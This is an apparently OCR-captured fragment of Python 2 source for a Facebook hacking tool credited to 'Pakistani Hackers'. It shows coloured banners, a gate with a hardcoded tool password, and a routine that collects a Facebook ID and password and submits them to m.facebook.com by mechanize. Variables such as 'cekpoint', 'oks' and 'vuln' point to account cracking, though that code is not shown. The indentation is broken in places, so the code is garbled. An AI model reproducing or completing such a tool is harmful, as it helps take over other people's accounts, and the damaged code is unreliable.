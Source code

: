  \033[1;96mAuthor  \033[1;93m: \033[1;92mlove 
 \033[1;96mYouTube \033[1;93m: \033[1;92mPakistani Hackers 
 \033[1;96mGitHub  \033[1;93m: \033[1;92mhttps://github.com/lovehacker/love 
 \033[1;96mBlogger \033[1;93m: \033[1;92mhttps://www.facebook.com/lovehacker 
 \033[1;91m=======================================""" 
 def tik(): 
         titik = ['.   ','..  ','... '] 
         for o in titik: 
                 print logo 
                 print("\r\033[1;96m \x1b[1;93mSedang masuk \x1b[1;97m"+o),;sys.stdout.flush();time.sleep(1) 
 back = 0 
 berhasil = [] 
 cekpoint = [] 
 oks = [] 
 id = [] 
 listgrup = [] 
 vulnot = "\033[31mNot Vuln" 
 vuln = "\033[32mVuln" 
 os.system("clear") 
 print "\033[1;96m =========================================" 
 print  """\033[1;91m======================================= 
 \033[1;96mAuthor  \033[1;93m: \033[1;92mlove 
 \033[1;96mYouTube \033[1;93m: \033[1;92mlovehacker 
 \033[1;96mGitHub  \033[1;93m: \033[1;92mhttps://github.com/lovehacker/love 
 \033[1;96mpage \033[1;93m: \033[1;92mhttps://www.facebook.com/lovehacker 
 \033[1;91m=======================================""" 
 print " \x1b[1;93m=============================================================" 
 CorrectUsername = "pagal shayar" 
 CorrectPassword = "32449629" 
 loop = 'true' 
 while (loop == 'true'): 
     username = raw_input("\033[1;96m \x1b[1;93mUsername Of Tool \x1b[1;96m>>>> ") 
     if (username == CorrectUsername): 
             password = raw_input("\033[1;96m \x1b[1;93mPassword Of Tool \x1b[1;96m>>>> ") 
         if (password == CorrectPassword): 
             print "Logged in successfully as " + username 
             loop = 'false' 
         else: 
             print "Wrong Password" 
             os.system('xdg-open https://www.facebook.com/Anonymoustricker1') 
     else: 
         print "Wrong Username" 
         os.system('xdg-open https://www.facebook.com/Anonymoustricker1') 
 def login(): 
         os.system('clear') 
         try: 
                 toket = open('login.txt','r') 
                 menu()  
         except (KeyError,IOError): 
                 os.system('clear') 
                 print logo 
                 print 42*"\033[1;96m=" 
                 print('\033[1;96m\x1b[1;93mLOGIN WITH FACEBOOK \x1b[1;96m' ) 
                 id = raw_input('\033[1;96m \x1b[1;93mID/Email \x1b[1;91m: \x1b[1;92m') 
                 pwd = raw_input('\033[1;96m \x1b[1;93mPassword \x1b[1;91m: \x1b[1;92m') 
                 tik() 
                 try: 
                         br.open('https://m.facebook.com') 
                 except mechanize.URLError: 
                         print"\n\033[1;96m \x1b[1;91mThere is no internet connection" 
                         keluar() 
                 br._factory.is_html = True 
                 br.select_form(nr=0) 
                 br.form['email'] = id 